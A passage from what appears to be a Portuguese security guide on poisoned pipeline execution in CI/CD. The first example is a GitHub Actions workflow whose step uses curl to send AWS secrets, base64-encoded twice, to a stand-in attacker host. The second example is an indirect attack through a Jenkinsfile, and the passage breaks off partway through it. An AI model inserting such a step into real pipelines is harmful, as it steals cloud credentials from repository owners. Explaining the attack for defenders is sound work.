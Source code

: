 ```YAML
name: PIPELINE
on: push
jobs:
 build:
   runs-on: ubuntu-latest
   steps:
     - env:
         ACCESS_KEY: ${{ secrets.AWS_ACCESS_KEY_ID }}
         SECRET_KEY: ${{ secrets.AWS_SECRET_ACCESS_KEY }}

       run: |
         curl -d creds="$(echo $ACCESS_KEY:$SECRET_KEY | base64 | base64)" hack.com

```



2. Depois que a atualização é enviada, isso aciona um pipeline que busca o código do repositório, incluindo o arquivo de configuração do pipeline malicioso.
3. O pipeline é executado com base no arquivo de configuração “envenenado” pelo invasor. De acordo com os comandos maliciosos do invasor, as credenciais da AWS armazenadas como segredos do repositório são carregadas na memória.
4. O pipeline executa os comandos do invasor que enviam as credenciais da AWS para um servidor controlado pelo invasor.
5. O invasor pode usar as credenciais roubadas para acessar o ambiente de produção da AWS.

<span style="text-decoration:underline;">Example 2: Roubo de credencial via Indirect-PPE (Jenkins)</span>

Desta vez, é um pipeline do Jenkins que busca o código do repositório, o constrói, executa testes e, por fim, implanta na AWS. Neste cenário, a configuração do pipeline é tal que o arquivo que descreve o pipeline - o Jenkinsfile - é sempre obtido da branch principal do repositório, que é protegido. Portanto, o invasor não pode manipular a definição de build, o que significa que buscar segredos armazenados no armazenamento de credenciais do Jenkins ou executar o trabalho em outros nós não é uma possibilidade.

No entanto - isso não significa que o pipeline esteja livre de riscos;

No estágio _build_ do pipeline, as credenciais da AWS são carregadas como variáveis de ambiente, tornando-as disponíveis apenas para os comandos executados neste estágio. No exemplo abaixo, o comando _make_, que é baseado no conteúdo do Makefile (também armazenado no repositório), é executado como parte deste estágio.

O arquivo Jenkins:

```GROOVY
pipeline {
   agent any
   stages {
       stage('build') {
           steps {
               withAWS(credentials: 'AWS_key', region: 'us-east-1') {
                       sh 'make build'
                       sh 'make clean'
               }
           }
       }
       stage('test') {
           steps {
               sh 'go test -v ./...'
...
```
